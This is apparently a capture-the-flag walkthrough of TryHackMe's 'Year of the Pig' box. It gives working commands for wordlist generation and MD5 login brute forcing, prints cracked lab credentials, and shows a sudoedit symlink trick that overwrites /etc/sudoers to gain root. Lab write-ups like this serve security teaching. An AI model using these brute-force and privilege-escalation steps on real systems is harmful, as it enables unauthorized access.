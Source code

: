 In this walkthrough, we'll go over a challenge (hard) level box called ***Year of the Pig*** on [TryHackMe](https://tryhackme.com/room/yearofthepig) 

![YoP](yop.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.209.207 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 17:02 EDT
Nmap scan report for 10.10.209.207
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds
```
![YoP index](yop-index-html.png)

We can run dirseach to see what we can find `dirsearch -u http://10.10.48.50 -r -f -t 50 -x 302,400,403,500,503`:
![YoP Dirsearch](yop-dirsearch1.png)

It looks like there is admin page, we can visit the following link http://10.10.22.113/login.php:
![YoP Admin Login](yop-admin-login-test.png)

We can see that the login page has a hint in terms of the password. It is a memorable word and followed by two numbers and a special character. we can use cewl to extract the keywords `cewl http://10.10.22.113 -d 4 -o -w yop-keywords.txt`. After that, we can get rid of some of the words manually. We can also create a rule file for hashcat to generate some passwords:
char.rule file contains:

```bash
$!
$@
$#
$$
$%
$^
$&
$*
$(
$)
${
$}
$[
$]
$.
$?
$-
$_
$+
```
We can now run the following hashcat script `hashcat yop-bruteforce.txt -r /usr/share/hashcat/rules/best64.rule -r char.rule --stdout > yop-finalbruteforce.txt`. I then try to run ffuf for brute forcing `ffuf -w yop-finalbruteforce.txt:PASS -w yop-bruteforce.txt:USER -X POST -d '{"username":"USER","password":"PASS"}' -H "Content-Type: text/plain;charset=UTF-8" -u "http://10.10.22.113/api/login" -t 100 -fr "Incorrect"`. Unfortunately, this doesn't bring back any results. If we proxy the traffic through BurpSuite, we see that the password is in MD5 hash:
![YoP MD5](yop-md5-hash.png)

We can use Name-That-Hash to detect the hash type:
![YoP NTH](yop-nth.png)

We can now convert each password to MD5 hashes with the following script `while read -r line; do printf %s "$line" | md5sum | cut -f1 -d' '; done < THM/yop/yop-finalbruteforce.txt > THM/yop/yop-finalbruteforceMD5.txt`. Following that, we can again try ffuf to brute force `ffuf -w yop-finalbruteforceMD5.txt:PASS -w yop-bruteforce.txt:USER -X POST -d '{"username":"USER","password":"PASS"}' -H "Content-Type: text/plain;charset=UTF-8" -u "http://10.10.22.113/api/login" -t 100 -fr "Incorrect"`:
![YoP Ffuf](yop-ffuf.png)

We can then feed the hash to sth `sth -t 'ea22b622ba9b3c41b22785dcb40211ac' -w yop-finalbruteforce.txt` which reveals the password:

![YoP Hashcat](yop-hashcat-MD5.png)

Username | Password
----------- | --------
marco | savoia21!

By using the below creds, we are able to ssh into the box:

![YoP Initial Foothold](yop-initial-foothold.png)

After a quick enumeration, we find "/var/www/admin.db" file, but I don't have read rights to it. Although, I saw that I was able to write "/var/www/html/admin/commands.php". The original commands.php looks like the below:
![YoP Commands PHP](yop-commands-php.png)

So we can change the privileges of this file via the commands.php and execute a command on the web page. I ended up adding the below line:

![YoP VIM](yop-vim-commands-php.png)

It looks like "change" command worked just fine and I am able to add "read" privilege to "admin.db" file:
![YoP Cat Admin](yop-cat-admin-db-UI.png)
![YoP Admin DB](yop-admin-db.png)

I then transferred "admin.db" file to my local Kali and inspected the contents of it, I found MD5 hashes of curtis user as well:
![YoP Admin DB Contents](yop-admin-db-contents.png)

It looks like we need to perform a lateral movement and upon feeding the hash to sth, I was able to retreive the password:
![YoP STH](yop-sth.png)

So far found credentials:

Username | Password
----------- | --------
marco | savoia21!
curtis | Donald1983$

By using su command, we are able to login as curtis:

![YoP Curtis](yop-curtis.png)

We know that curtis can run `sudo -l`:
![YoP Curtis Sudo -l](yop-curtis-sudo-l.png)

A quick searchsploit search finds three exploits:
![YoP Searchsploit](yop-searchsploit.png)

According to the searchsploit, we just need to create the necessary folders and generate a symbolic link:
```bash
It seems that sudoedit does not check the full path if a wildcard is used
twice (e.g. /home/*/*/file.txt), allowing a malicious user to replace the
file.txt real file with a symbolic link to a different location (e.g.
/etc/shadow).

I was able to perform such redirect and retrieve the data from the
/etc/shadow file.

In order for you to replicate this, you should configure the following line
in your /etc/sudoers file:

<user_to_grant_priv> ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt

Then, logged as that user, create a subdirectory within its home folder
(e.g. /home/<user_to_grant_priv>/newdir) and later create a symbolic link
inside the new folder named test.txt pointing to /etc/shadow.

When you run sudoedit /home/<user_to_grant_priv>/newdir/test.txt you will
be allowed to access the /etc/shadow even if have not been granted with
such access in the sudoers file.
```

So we can switch to marco user and create "/foo/bar" directory in "/var/www/html" and grant write access to everyone:
![YoP Necessary Folders](yop-necessary-folders.png)

After this we can switch back to curtis and issue the following commands:
1. `cd /var/www/html/foo/bar`
2. `touch config.php`
3. `ln -sf /etc/sudoers config.php`
4. `sudoedit /var/www/html/foo/bar/config.php` I added the following line to the config.php file 
```bash
curtis ALL=(root) NOPASSWD: ALL
```
![YoP Sudoers](yop-sudoers.png)

We can then issue `sudo -i` to become root user:

![YoP Root](yop-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
